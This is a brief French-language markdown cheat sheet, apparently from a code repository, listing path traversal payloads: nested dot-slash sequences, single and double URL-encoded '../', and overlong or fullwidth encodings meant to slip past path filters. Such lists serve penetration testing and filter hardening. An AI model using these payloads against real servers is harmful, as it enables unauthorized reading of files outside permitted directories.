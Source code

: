 ## Path traversal

## Sequences imbriquées

- `....//`
- `....\/`

## URL encodé

- `%2e%2e%2f` : encode simple
- `%252e%252e%252f` : encode double

## Encodage non standard

- `..%c0%af`
- `..%ef%bc%8f`